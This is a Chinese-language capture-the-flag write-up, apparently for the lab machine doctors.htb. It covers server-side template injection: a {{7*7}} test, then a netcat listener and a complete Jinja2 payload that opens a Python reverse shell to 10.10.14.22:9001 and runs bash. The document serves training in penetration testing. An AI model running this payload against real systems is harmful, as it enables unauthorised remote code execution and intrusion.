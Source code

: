 ```c
*********************************************************************************/
```

```c
如果用户提交像这样的 get 请求/hello?user={{7*7}}，结果会是Hello 49!
因为该render函数将处理大括号内的文本。
```

```C
PayloadsAllTheThings 在SSTI 页面上有一张很棒的图片，展示了如何测试 SSTI：
```

![Screenshot_20240417_004546](./图/Screenshot_20240417_004546.png)

###### _攻击

```c
${7*7},我操没看到,真神奇
即使是${{7*7}}
```

```c
nc -lnvp 9001
```

![Screenshot_20240417_211429](./图/Screenshot_20240417_211429.png)



```c
然后在导航栏里面,翻开源代码,我们发现了一个注释是archive
```

![Screenshot_20240417_212852](./图/Screenshot_20240417_212852.png)

![Screenshot_20240417_212831](./图/Screenshot_20240417_212831.png)

```
然后直接访问http://doctors.htb/archive
发现什么也没有,一定要看源代码,发现${{7*7}}可以造成ssti注入
```

![Screenshot_20240417_212505](./图/Screenshot_20240417_212505.png)

![Screenshot_20240417_212516](./图/Screenshot_20240417_212516.png)

```c
//准备构建ssti注入payload
```

```c
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.22\",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
